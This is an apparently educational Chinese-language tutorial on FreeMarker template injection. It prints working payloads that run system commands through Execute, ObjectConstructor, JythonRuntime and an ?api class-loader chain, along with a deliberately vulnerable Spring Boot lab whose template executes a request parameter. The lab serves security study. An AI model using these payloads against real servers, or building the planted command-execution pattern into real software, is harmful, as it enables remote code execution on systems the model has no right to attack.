

# FreeMarker 模板注入

FreeMarker 是一款 模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。

模板编写为FreeMarker Template Language (FTL)。它是简单的、专用的语言，不是像PHP那样成熟的编程语言。这意味着要通过编程语言来准备数据，比如数据库查询和业务运算，之后模板负责显示。在模板中，你可以专注于如何展现数据，而在模板之外可以专注于数据的处理。

<figure markdown="span">
    {width=60% loading=lazy}
</figure>

## 基础语法

参考 [官方文档](https://freemarker.apache.org/docs/index.html)

**变量**

\${varname}

**条件语句**

```html
<#if condition>
    ...
<#elseif condition2>
    ...
<#elseif condition3>
    ...
<#else>
    ...
</#if>
```

**循环语句**

```html
<#list users as user>
    <p>${user}
</#list>
```

**include**

```html
<html>
    <head>
        <title>Test page</title>
    </head>
    <body>
        <h1>Test page</h1>
        <p>Blah blah...
        <#include "/test.html">
    </body>
</html>
```

## 内置函数

FreeMarker 内置了 new 函数，可以创建任意实现了`TemplateModel`接口的Java对象，同时还可以触发没有实现`TemplateModel`接口的类的静态初始化块。

主要的利用例如：

```html title="PoC"
<!-- assign 为赋值操作 -->

<!-- 执行系统命令 -->
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}

<!-- 实例化对象 -->
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()

<!-- 执行 Python 代码 -->
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## API

`value?api` 提供对 value 的 API（通常是 Java API）的访问，例如 `value?api.someJavaMethod()` 或 `value?api.someBeanProperty`。可通过 `getClassLoader`获取类加载器从而加载恶意类，或者也可以通过 `getResource`来实现任意文件读取。

但是，当`api_builtin_enabled`为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。

```html title="PoC"
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

## 漏洞复现

=== "freemarker"

    ```java
    package cc.colemak.springssti;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;

    @SpringBootApplication
    public class freemarker {
        public static void main(String[] args) {
            SpringApplication.run(freemarker.class, args);
        }
    }
    ```

=== "TemplateController"

    ```java
    package cc.colemak.springssti.controller;

    import freemarker.cache.StringTemplateLoader;
    import org.springframework.ui.Model;
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RequestParam;

    import java.util.Map;


    @Controller
    public class TemplateController {
        @RequestMapping(value = "/rce")
        public String rce(@RequestParam("cmd") String cmd, Model model)
        {
            model.addAttribute("cmd",cmd);
            return "rce";
        }
    }
    ```

=== "/resources/templates/rce.ftl"

    ```html
    <!DOCTYPE html>
    <html lang=\"en\">
    <head>
        <meta charset=\"UTF-8\">
        <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("${cmd}") }
        <title>Hello!</title>
    </head>
    <body>
    <h2 class=\"hello-title\">Hello!</h2>
    </body>
    </html>
    ```

=== "pom.xml"

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>
        <parent>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-parent</artifactId>
            <version>3.3.2</version>
            <relativePath/> <!-- lookup parent from repository -->
        </parent>
        <groupId>cc.colemak</groupId>
        <artifactId>SpringSSTI</artifactId>
        <version>0.0.1-SNAPSHOT</version>
        <name>SpringSSTI</name>
        <description>SpringSSTI</description>
        <url/>
        <licenses>
            <license/>
        </licenses>
        <developers>
            <developer/>
        </developers>
        <scm>
            <connection/>
            <developerConnection/>
            <tag/>
            <url/>
        </scm>
        <properties>
            <java.version>22</java.version>
        </properties>
        <dependencies>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-freemarker</artifactId>
            </dependency>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-web</artifactId>
            </dependency>

            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-test</artifactId>
                <scope>test</scope>
            </dependency>
        </dependencies>

        <build>
            <plugins>
                <plugin>
                    <groupId>org.springframework.boot</groupId>
                    <artifactId>spring-boot-maven-plugin</artifactId>
                </plugin>
            </plugins>
        </build>

    </project>
    ```

=== "application.properties"

    ```properties
    spring.application.name=SpringSSTI
    server.port=8086
    spring.freemarker.suffix=.ftl
    ```

**复现成功**


freemarker 模板注入需要控制 ftl 模板内容，仅靠传参无法实现，因此较难利用。

## 参考资料

[Java安全之 freemarker 模板注入](https://www.cnblogs.com/nice0e3/p/16217471.html)
